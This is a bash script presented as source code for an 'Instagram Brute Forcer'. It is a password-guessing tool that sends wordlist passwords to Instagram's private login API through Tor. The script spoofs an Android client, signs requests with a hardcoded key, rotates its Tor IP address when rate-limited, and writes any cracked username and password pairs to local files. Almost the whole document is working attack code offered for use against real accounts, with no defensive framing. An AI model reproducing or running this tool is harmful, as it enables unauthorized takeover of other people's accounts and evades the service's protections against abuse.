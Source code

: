 #!/bin/bash

# Instagram: @iam_with_you11

trap('store;exit 1' 2)
string4=$(openssl rand -hex 32 | cut -c 1-4)
string8=$(openssl rand -hex 32  | cut -c 1-8)
string12=$(openssl rand -hex 32 | cut -c 1-12)
string16=$(openssl rand -hex 32 | cut -c 1-16)
device="android-$string16"
uuid=$(openssl rand -hex 32 | cut -c 1-32)
phone="$string8-$string4-$string4-$string4-$string12"
guid="$string8-$string4-$string4-$string4-$string12"
var=$(curl -i -s -H "$header" https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=$uuid > /dev/null)
var2=$(echo $var | awk -F ';' '{print $2}' | cut -d '=' -f3)

checkroot() {
if [[ "$(id -u)" -ne 0 ]]; then
    printf "\e[1;77mPlease, run this program as root!\n\e[0m"
    exit 1
fi
}

dependencies() {

command -v openssl > /dev/null 2>&1 || { echo >&2 "I require openssl but it's not installed. Aborting."; exit 1; }
command -v tor > /dev/null 2>&1 || { echo >&2 "I require tor but it's not installed. Aborting."; exit 1; }
command -v curl > /dev/null 2>&1 || { echo >&2 "I require curl but it's not installed. Aborting."; exit 1; }
command -v awk > /dev/null 2>&1 || { echo >&2 "I require awk but it's not installed. Aborting."; exit 1; }
command -v sed > /dev/null 2>&1 || { echo >&2 "I require sed but it's not installed. Aborting."; exit 1; }
command -v cat > /dev/null 2>&1 || { echo >&2 "I require cat but it's not installed. Aborting."; exit 1; }
command -v tr > /dev/null 2>&1 || { echo >&2 "I require tr but it's not installed. Aborting."; exit 1; }
command -v wc > /dev/null 2>&1 || { echo >&2 "I require wc but it's not installed. Aborting."; exit 1; }
command -v cut > /dev/null 2>&1 || { echo >&2 "I require cut but it's not installed. Aborting."; exit 1; }
command -v uniq > /dev/null 2>&1 || { echo >&2 "I require uniq but it's not installed. Aborting."; exit 1; }
if [ $(ls /dev/urandom >/dev/null; echo $?) == "1" ]; then
echo "/dev/urandom not found!"
exit 1
fi

}

banner() {

printf "\e[1;92m     _                                      \e[0m\n"
printf "\e[1;92m _  | |                                     \e[0m\n"
printf "\e[1;92m( \ | | ____    ___  _| |_  _____           \e[0m\n"
printf "\e[1;92m ) )| ||  _ \  /___)(_   _)(____ |          \e[0m\n"
printf "\e[1;77m(_/ | || | | ||___ |  | |_ / ___ |  _____   \e[0m\n"
printf "\e[1;77m    |_||_| |_|(___/    \__)\_____| (_____)  \e[0m\n"
printf "\n"
printf "\e[1;77m\e[45m   Instagram Brute Forcer v1.5 Author: iam_with_you11   \e[0m\n"
printf "\n"
}

function start() {
banner
checkroot
dependencies
read -p $'\e[1;92mUsername account: \e[0m' user
checkaccount=$(curl -s https://www.instagram.com/$user/?__a=1 | grep -c "the page may have been removed")
if [[ "$checkaccount" == 1 ]]; then
printf "\e[1;91mInvalid Username! Try again\e[0m\n"
sleep 1
start
else
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"
default_threads="10"
read -p $'\e[1;92mThreads (Use < 20, Default 10): \e[0m' threads
threads="${threads:-${default_threads}}"
fi
}

checktor() {

check=$(curl --socks5 localhost:9050 -s https://check.torproject.org > /dev/null; echo $?)

if [[ "$check" -gt 0 ]]; then
printf "\e[1;91mPlease, check your TOR Connection! Just type tor or service tor start\n\e[0m"
exit 1
fi

}

function store() {

if [[ -n "$threads" ]]; then
printf "\e[1;91m [*] Waiting threads shutting down...\n\e[0m"
if [[ "$threads" -gt 10 ]]; then
sleep 6
else
sleep 3
fi
default_session="Y"
printf "\n\e[1;77mSave session for user\e[0m\e[1;92m %s \e[0m" $user
read -p $'\e[1;77m? [Y/n]: \e[0m' session
session="${session:-${default_session}}"
if [[ "$session" == "Y" || "$session" == "y" || "$session" == "yes" || "$session" == "Yes" ]]; then
if [[ ! -d sessions ]]; then
mkdir sessions
fi
printf "user=\"%s\"\npass=\"%s\"\nwl_pass=\"%s\"\n" $user $pass $wl_pass > sessions/store.session.$user.$(date +"%FT%H%M")
printf "\e[1;77mSession saved.\e[0m\n"
printf "\e[1;92mUse ./instashell --resume\n"
else
exit 1
fi
else
exit 1
fi
}


function changeip() {

killall -HUP tor
#sleep 3

}

function bruteforcer() {

checktor
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
printf "\e[1;92mUsername:\e[0m\e[1;77m %s\e[0m\n" $user
printf "\e[1;92mWordlist:\e[0m\e[1;77m %s (%s)\e[0m\n" $wl_pass $count_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"

startline=1
endline="$threads"
while [ true ]; do
IFS=$'\n'
for pass in $(sed -n ''$startline','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"

countpass=$(grep -n "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5 127.0.0.1:9050 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.instagram.com/api/v1/accounts/login/" | grep -o "200\|challenge\|many tries\|Please wait"| uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.passwords ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.passwords \n\e[0m";  kill -1 $$ ; elif [[ $var == "200" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.passwords ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.passwords \n\e[0m"; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then changeip; fi; ) } & done; wait $!;
let startline+=$threads
let endline+=$threads
changeip
done
}



function resume() {

banner 
checktor
counter=1
if [[ ! -d sessions ]]; then
printf "\e[1;91m[*] No sessions\n\e[0m"
exit 1
fi
printf "\e[1;92mFiles sessions:\n\e[0m"
for list in $(ls sessions/store.session*); do
IFS=$'\n'
source $list
printf "\e[1;92m%s \e[0m\e[1;77m: %s (\e[0m\e[1;92mwl:\e[0m\e[1;77m %s\e[0m\e[1;92m,\e[0m\e[1;92m lastpass:\e[0m\e[1;77m %s )\n\e[0m" "$counter" "$list" "$wl_pass" "$pass"
let counter++
done
read -p $'\e[1;92mChoose a session number: \e[0m' fileresume
source $(ls sessions/store.session* | sed ''$fileresume'q;d')
default_threads="10"
read -p $'\e[1;92mThreads (Use < 20, Default 10): \e[0m' threads
threads="${threads:-${default_threads}}"

printf "\e[1;92m[*] Resuming session for user:\e[0m \e[1;77m%s\e[0m\n" $user
printf "\e[1;92m[*] Wordlist: \e[0m \e[1;77m%s\e[0m\n" $wl_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
startline="$threads"
while [ true ]; do
IFS=$'\n'
for pass in $(sed -n '/'$pass'/,'$startline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"$phone", "_csrftoken":"$var2", "username":"'$user'", "guid":"$guid", "device_id":"$device", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"

countpass=$(grep -n "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5 127.0.0.1:9050 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.instagram.com/api/v1/accounts/login/" | grep -o "200\|challenge\|many tries\|Please wait"| uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $var == "200" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m"; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then changeip; fi; ) } & done; wait $!;
let startline+=$threads
changeip
done
}

case "$1" in --resume) resume ;; *)
start
bruteforcer
esac
